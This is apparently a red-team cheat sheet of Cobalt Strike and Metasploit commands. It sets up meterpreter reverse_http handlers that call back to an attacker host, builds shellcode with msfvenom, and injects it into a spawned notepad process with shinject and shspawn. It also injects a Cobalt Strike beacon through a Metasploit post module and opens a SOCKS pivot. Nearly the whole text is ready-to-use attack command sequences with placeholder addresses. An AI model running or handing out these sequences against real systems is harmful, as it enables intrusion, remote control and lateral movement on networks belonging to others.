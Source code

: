#### Cobalt strike --> Metasploit
- Only supports `x86`
```
sudo msfconsole -q
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set LHOST eth0
set LPORT <PORT>
exploit -j
```
- Go to Listeners --> Add and set the Payload to Foreign HTTP. Set the Host, the Port, Set the name to `msf` and click Save. The command `spawn msf` will pass the session to metasploit.
```
spawn msf
```

#### Cobalt strike --> Metasploit shellcode shinject new process
```
sudo msfconsole -q
use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_http
msfvenom -p windows/x64/meterpreter_reverse_http LHOST=<IP> LPORT=8080 -f raw -o /tmp/msf.bin

execute C:\Windows\System32\notepad.exe
ps
shinject <PID> x64 msf.bin
```

#### Cobalt strike --> Metasploit shellcode shspawn new process
```
sudo msfconsole -q
use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_http
msfvenom -p windows/x64/meterpreter_reverse_http LHOST=<IP> LPORT=8080 -f raw -o /tmp/msf_http_x64.bin

shspawn x64 C:\Payloads\msf_http_x64.bin
```

### Metasploit --> Cobalt strike
- Go to Attacks --> Packages --> Windows Executable (S), select the desired listener, select Raw as the Output type and select Use x64 payload.
```
use post/windows/manage/shellcode_inject
set SESSION 1
set SHELLCODE /tmp/beacon.bin
run
```

## Pivoting
### Socksproxy
#### Enable Socksproxy no auth
- OPSEC: This binds the port on all interfaces and since there is no authentication available on SOCKS4, this port can technically be used by anyone
```
socks <PORT> <SOCKS4/SOCKS5>
```
